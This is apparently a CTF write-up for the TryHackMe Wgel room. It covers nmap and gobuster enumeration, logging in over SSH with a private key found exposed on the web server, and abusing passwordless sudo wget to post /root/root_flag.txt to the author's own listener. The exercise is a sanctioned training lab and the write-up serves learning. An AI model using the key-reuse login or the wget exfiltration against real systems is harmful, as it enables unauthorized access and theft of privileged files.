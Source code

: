 # TryHackMe-WgelCTF-ctf-writeup

CTF url: https://www.tryhackme.com/room/wgelctf

I will use $MY_IP as placeholder for the IP assigned to my machine in the thm VPN, and $MACHINE_IP as placeholder for the "victim host".

I start with default nmap (ran as root, so it would be a syn scan)

`nmap -A $MACHINE_IP -oN nmap_syn_def`

wich reveals me two open ports: 22 (ssh) and 80 (apache).

Browsing $MACHINE_IP I see the classic welcome page. I will launch gobuster 

`gobuster dir -x php,html -u $MACHINE_IP -w /usr/share/dirb/wordlists/common.txt`

I see some usual stuff along with "sitemap" folder. I browse it, it is some sort of blog, while looking trough its pages I will launch gobuster again starting from this path

`gobuster dir -x php,html -u $MACHINE_IP/sitemap -w /usr/share/dirb/wordlists/common.txt`

Around pages I don't see nothing useful but a form meant to "leave comments" wich seems not to be injectable.

The second gobuster scan reveals the path /sitemap/.ssh, browsing it I'm able to see a file "id_rsa" wich I download and set te right permissions to it

`chmod 600 id_rsa`

It could be server's root private key so I immediately give a shot:

`ssh -i id_rsa $MACHINE_IP`

It asks for root's password so it's noot root's private key. Around pages I also found some name wich I try to use the rsa key with with no results.

Finally, after looking at every pages source code, I find the username "jessie" in the apache welcome page.

`ssh -i id_rsa jessie@MACHINE_IP`

I'm in and I find the first flag under /home/jessie/Documents.

Next step is to retrieve "user flag" which I suppose is in /root. 

I check jessie's sudo permissions:

`sudo -l`

and i find that I can run "wget" as root without being asked for a password, cool.

I set up a simple python server (here's the code https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7) for handle POST requests and tried to send me (guessing the name from the other flag) the file /root/root_flag.txt

`wget --post-file=/root/root_flag.txt http://$MY_IP`

it was the right name and the file contained the last flag.
